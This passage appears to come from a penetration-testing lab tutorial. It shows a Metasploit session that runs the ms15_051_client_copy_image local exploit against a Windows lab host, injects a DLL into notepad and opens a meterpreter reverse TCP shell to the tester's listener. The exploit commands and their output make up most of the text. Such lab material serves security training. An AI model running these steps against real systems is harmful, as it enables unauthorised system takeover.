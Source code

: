 Running the recon module presents us with a multitude of options. Going through each separate one, we land on the `ms15_051_client_copy_image` entry, which proves to be successful. This exploit lands us directly within a root shell, giving us total control over the target system.

#### MSF - Privilege Escalation

```shell-session
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1

session => 1


msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000


meterpreter > getuid
```